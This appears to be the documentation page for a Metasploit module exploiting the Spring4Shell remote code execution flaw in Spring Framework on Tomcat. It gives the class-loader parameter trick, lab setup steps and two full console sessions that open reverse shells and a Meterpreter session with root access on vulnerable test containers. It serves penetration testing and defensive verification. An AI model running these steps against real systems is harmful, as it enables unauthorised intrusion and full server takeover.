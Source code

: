 ## Vulnerable Application

Spring Framework versions 5.3.0 to 5.3.17, 5.2.0 to 5.2.19, and older versions when running on JDK 9 or above
and specifically packaged as a traditional WAR and deployed in a standalone Tomcat instance are vulnerable
to remote code execution due to an unsafe data binding used to populate an object from request parameters
to set a Tomcat specific ClassLoader. By crafting a request to the application and referencing the
org.apache.catalina.valves.AccessLogValve class through the classLoader with parameters such as the following:
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp, an unauthenticated attacker can
gain remote code execution.

## Verification Steps

1. Build the application
   1. `git clone https://github.com/vleminator/Spring4Shell-POC`
   2. `docker build . -t spring4shell`
2. Run the application
   1. `docker run -p 8085:8080 spring4shell`
3. Start msfconsole
4. Run: `use exploit/multi/http/spring_framework_rce_spring4shell`
5. Set the `RHOSTS`, `TARGET`, `PAYLOAD` and payload associated datastore options
6. Run the exploit

## Options
### HTTP_METHOD
HTTP method to use for checking and exploitation. If set to `Automatic` (the default value), the method will be
automatically identified. Automatically identifying the HTTP method uses the check method.

### PAYLOAD_PATH
Path to write the payload. This is relative to the tomcat installation directory.

## Scenarios

### Target Java (vulhub container)

The target is the [vulhub container](https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22965) which uses the
GET HTTP method.

```
msf > use exploit/multi/http/spring_framework_rce_spring4shell
[*] No payload configured, defaulting to generic/shell_reverse_tcp
msf exploit(multi/http/spring_framework_rce_spring4shell) > show options

Module options (exploit/multi/http/spring_framework_rce_spring4shell):

   Name          Current Setting                 Required  Description
   ----          ---------------                 --------  -----------
   HTTP_METHOD   Automatic                       no        HTTP method to use (Accepted: Automatic, GET, POST)
   PAYLOAD_PATH  webapps/ROOT                    yes       Path to write the payload
   Proxies                                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         8080                            yes       The target port (TCP)
   SSL           false                           no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /                               yes       The path to the application action
   VHOST                                         no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.250.134  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java


msf exploit(multi/http/spring_framework_rce_spring4shell) > set PAYLOAD java/jsp_shell_reverse_tcp
PAYLOAD => java/jsp_shell_reverse_tcp
msf exploit(multi/http/spring_framework_rce_spring4shell) > exploit http://192.168.159.128:8080/

[*] Started reverse TCP handler on 192.168.250.134:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[+] Automatically identified HTTP method: GET
[*] 192.168.159.128:8080 - Generating JSP...
[*] 192.168.159.128:8080 - Modifying Class Loader...
[*] 192.168.159.128:8080 - Waiting for the server to flush the logfile
[*] 192.168.159.128:8080 - Executing JSP payload at http://192.168.159.128:8080/MUpts6425.jsp
[+] 192.168.159.128:8080 - Log file flushed
[*] Command shell session 1 opened (192.168.250.134:4444 -> 172.19.0.2:47418 ) at 2022-05-05 10:47:50 -0400

id
uid=0(root) gid=0(root) groups=0(root)
pwd
/usr/local/tomcat
```

### Target Linux (x64)

The target is the [vleminator container](https://github.com/vleminator/Spring4Shell-POC) which uses the
POST HTTP method.

```
msf > use exploit/multi/http/spring_framework_rce_spring4shell
[*] Using configured payload java/jsp_shell_reverse_tcp
msf exploit(multi/http/spring_framework_rce_spring4shell) > set TARGET Linux
TARGET => Linux
msf exploit(multi/http/spring_framework_rce_spring4shell) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf exploit(multi/http/spring_framework_rce_spring4shell) > show options

Module options (exploit/multi/http/spring_framework_rce_spring4shell):

   Name          Current Setting                 Required  Description
   ----          ---------------                 --------  -----------
   HTTP_METHOD   Automatic                       no        HTTP method to use (Accepted: Automatic, GET, POST)
   PAYLOAD_PATH  webapps/ROOT                    yes       Path to write the payload
   Proxies                                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         8080                            yes       The target port (TCP)
   SSL           false                           no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /app/example/HelloWorld.action  yes       The path to the application action
   VHOST                                         no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.250.134  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux


msf exploit(multi/http/spring_framework_rce_spring4shell) > exploit http://192.168.159.128:8085/helloworld/greeting

[*] Started reverse TCP handler on 192.168.250.134:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[+] Automatically identified HTTP method: POST
[*] 192.168.159.128:8085 - Generating JSP...
[*] 192.168.159.128:8085 - Modifying Class Loader...
[*] 192.168.159.128:8085 - Waiting for the server to flush the logfile
[*] 192.168.159.128:8085 - Executing JSP payload at http://192.168.159.128:8085/S0J17.jsp
[+] 192.168.159.128:8085 - Log file flushed
[*] Sending stage (3020772 bytes) to 172.17.0.2
[+] Deleted /tmp/6DKA
[*] Meterpreter session 2 opened (192.168.250.134:4444 -> 172.17.0.2:54902 ) at 2022-05-05 10:52:35 -0400

meterpreter > getuid
Server username: root
meterpreter > pwd
/helloworld
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 11.2 (Linux 5.17.4-100.fc34.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
